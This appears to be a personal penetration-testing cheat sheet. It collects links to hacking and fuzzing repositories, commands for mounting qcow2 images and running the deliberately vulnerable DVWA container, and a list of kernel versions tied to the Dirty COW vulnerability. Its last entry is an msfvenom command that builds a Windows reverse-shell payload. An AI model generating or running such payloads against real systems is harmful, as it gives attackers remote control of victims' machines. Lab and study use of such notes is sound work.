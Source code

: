 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

# RADARE2 - Amazing intro to binary analysis
https://github.com/ITAYC0HEN/A-journey-into-Radare2.git

# Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


# DOCKER
## DVWA
https://github.com/ethicalhack3r/DVWA.git
docker run --rm -it -p 8000:80 vulnerables/web-dvwa
## Apache
httpd 
/usr/local/apache2/htdocs/index.html


# FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz


#Dirty COW Kernels
    4.8.0-26.28 for Ubuntu 16.10
    4.4.0-45.66 for Ubuntu 16.04 LTS
    3.13.0-100.147 for Ubuntu 14.04 LTS
    3.2.0-113.155 for Ubuntu 12.04 LTS
    3.16.36-1+deb8u2 for Debian 8
    3.2.82-1 for Debian 7
    4.7.8-1 for Debian unstable


## Different address spaces in memory are organzed by memory maps; to list:
cat /proc/self/maps

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
